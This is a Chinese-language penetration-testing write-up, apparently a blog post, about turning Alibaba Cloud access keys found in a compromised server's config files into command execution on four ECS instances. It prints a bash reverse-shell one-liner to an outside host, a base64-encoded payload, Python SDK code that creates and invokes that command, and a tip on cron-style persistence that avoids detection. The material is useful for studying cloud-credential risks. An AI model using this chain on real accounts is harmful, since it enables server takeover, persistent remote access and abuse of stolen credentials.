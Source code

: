 ```yaml
---
date: "2019-04-02T00:00:00Z"
description: 项目中准备开展内网渗透的时候，信息搜集给我带来的收获……
title: 阿里云Access Token问题 - 项目收获记录
url: /archivers/2019-04-02/1
---
```


## 0x00 前言

Q：在获得权限较低的Webshell的情况下，如何继续扩大收获？

A：首先，信息搜集，分别包含：当前权限，主机网络环境、系统进程、网络连接状况、散落的凭证等，然后进行战略分析

1. 是否需要提权
2. 如何将流量带入（转发）
3. 结合搜集的信息转化出其他更好的思路

很巧，我遇到了第三种情况。

**Tips：内网渗透一般提权是最不可取的方案，我们只需要不断搜集信息、撕开一个流量口子即可。**

## 0x01 阿里云对象存储 - OSS

什么是对象存储？

阿里云对象存储服务（Object Storage Service，简称OSS），是阿里云对外提供的海量、安全、低成本、高可靠的云存储服务。您可以通过本文档提供的简单的REST接口，在任何时间、任何地点、任何互联网设备上进行上传和下载数据。基于OSS，您可以搭建出各种多媒体分享网站、网盘、个人和企业数据备份等基于大规模数据的服务。


通过Webshell在目标机器（Linux）的Web站点目录下发现多个子站配置文件`config.php`，配置了同一个阿里云的OSS地址，只是存储空间（Bucket）不同。

通常情况下一个阿里云oss地址的组成如下：


`http(s)://[BucketName].oss-cn-[Region].aliyuncs.com`

BucketName ：存储空间

Region：地域，目前有如下几个：

![2019-04-02-20-58-34](https://images.payloads.online/5f10d050-4f5f-11ec-b934-00d861bf4abb.png)

例如：杭州 = cn-hangzhou



## 0x02 Access Token

Access Token = AccessKeyId + AccessKeySecret


OSS通过使用AccessKeyId/ AccessKeySecret对称加密的方法来验证某个请求的发送者身份。

AccessKeyId用于标示用户，AccessKeySecret是用户用于加密签名字符串和OSS用来验证签名字符串的密钥，其中AccessKeySecret必须保密，只有用户和OSS知道。AccessKey 根据所属账号的类型有所区分。

**阿里云账户AccessKey：阿里云账号提供的AccessKey拥有所属资源的全部操作权限**

RAM账户AccessKey：RAM账户由阿里云账号授权生成，所拥有的AccessKey拥有对特定资源限定的操作权限

STS临时访问凭证：由阿里云账号或RAM账号生成，所拥有的AccessKey在限定时间内拥有对特定资源限定的操作权限。过期权限收回。

[详细介绍](https://help.aliyun.com/document_detail/31867.html?spm=a2c4g.11186623.2.7.60c35869TaDn9K#concept-e4s-mhv-tdb)

## 0x03 通过Access Token接管ECS

ECS：云服务器（Elastic Compute Service，简称 ECS）是一种简单高效、处理能力可弹性伸缩的计算服务，帮助您快速构建更稳定、安全的应用，提升运维效率，降低 IT 成本，使您更专注于核心业务创新。

前面介绍到，默认情况下，阿里云用户获得的Access Token是对当前用户所有服务通用的令牌，在没有使用RAM账户的情况下，就可以使用SDK去操作阿里云所有产品。

在此次项目里，我接管了四台ECS，执行任意命令，获得最大权限。


首先，通过读取配置文件，获得了同于上传图片所需要认证的Access Token，如何检验是否可用的呢？


```
Access Key Id : *********
Access Secret : ***************************
Region : cn-*****
```

下面直接调用获取ECS实例的API即可，以往情况下，我会使用Python，安装阿里云的sdk-core库，但是现在能在线调试，大大的节省了本地调试的成本：

DescribeInstances - 获得实例信息

![2019-04-02-21-11-05](https://images.payloads.online/5f4963fc-4f5f-11ec-9a56-00d861bf4abb.png)


只有第一个`RegionId`是必填项，点击`API Explorer`，可以直接进入调试环境：

![2019-04-02-21-12-38](https://images.payloads.online/5f9a2274-4f5f-11ec-8f74-00d861bf4abb.png)

服务器上的oss配置中刚好有RegionId，我就直接选择了，然后填入Access Token信息，就可以获得数据。

我是直接在`Alicloud Shell`里复制了一份运行的：

![2019-04-02-21-16-55](https://images.payloads.online/5fe32866-4f5f-11ec-8225-00d861bf4abb.png)

输出结果如下：

![2019-04-02-21-21-17](https://images.payloads.online/60291bd2-4f5f-11ec-88bc-00d861bf4abb.png)


使用`json.cn`格式化一下：

![2019-04-02-21-23-48](https://images.payloads.online/607ec69a-4f5f-11ec-a155-00d861bf4abb.png)

共四台服务器，那么如何执行命令呢？

首先要创建一条命令，然后指定实例来调用命令，手册地址：

https://help.aliyun.com/document_detail/64844.html

命令的类型取值范围：

- RunBatScript：创建一个在 Windows 实例中运行的 Bat 脚本
- RunPowerShellScript：创建一个在 Windows 实例中运行的 PowerShell 脚本
- RunShellScript：创建一个在 Linux 实例中运行的 Shell 脚本

由于都是Linux，我就选择RunShellScript，注意：命令必须是base64encode


```
rvn0xsy@Rvn0xsy ~> echo "bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=
```

![2019-04-02-21-29-22](https://images.payloads.online/60c11202-4f5f-11ec-ac1c-00d861bf4abb.png)

```
#!/usr/bin/env python
#coding=utf-8

from aliyunsdkcore.client import AcsClient
from aliyunsdkcore.acs_exception.exceptions import ClientException
from aliyunsdkcore.acs_exception.exceptions import ServerException
from aliyunsdkecs.request.v20140526.CreateCommandRequest import CreateCommandRequest

client = AcsClient('<accessKeyId>', '<accessSecret>', 'cn-shanghai')

request = CreateCommandRequest()
request.set_accept_format('json')

request.set_Type("RunShellScript")
request.set_CommandContent("YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=")
request.set_Name("test")

response = client.do_action_with_exception(request)
# python2:  print(response) 
print(str(response, encoding='utf-8'))

```

执行成功后，会返回如下信息：

```
{
	"RequestId": "********-****-****-****-********",
	"CommandId": "c-0************"
}
```

CommandId最好记下来，不然还要调用[DescribeCommands](https://api.aliyun.com/find/Ecs/DescribeCommands?spm=a2c1g.8271268.10000.91.169bdf25hVPFbi)


```
{
	"PageNumber": 1,
	"TotalCount": 1,
	"PageSize": 10,
	"RequestId": "********-****-****-****-********",
	"Commands": {
		"Command": [
			{
				"Name": "test",
				"Timeout": 3600,
				"CommandContent": "YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=",
				"Description": "",
				"Type": "RunShellScript",
				"CommandId": "c-0************",
				"WorkingDir": ""
			}
		]
	}
}
```

紧接着就是`InvokeCommand`：

- RegionId：区域ID，例如：cn-shanghai
- CommandId：命令ID
- InstanceId：实例ID
- Timed：命令是否为周期执行。 默认值：False
- Frequency：周期任务的执行周期，两次周期任务的时间间隔不能低于10秒。当参数 Timed 的值为 True 时，参数 Frequency 为必需参数。 该参数取值遵循Cron表达式，参阅[Cron表达式](https://help.aliyun.com/document_detail/64769.html?spm=a2c4g.11186623.2.21.755e1926kBOlWA)。

默认情况下，我们不需要管后面的参数，如果你想权限维持的话，可以设置Timed为False，并且设置Frequency为定时任务计划表达式，执行的过程中，基本上不会拦截，因为Access Token的调用，一切都是白名单的。

![2019-04-02-21-39-17](https://images.payloads.online/6109210a-4f5f-11ec-85d9-00d861bf4abb.png)




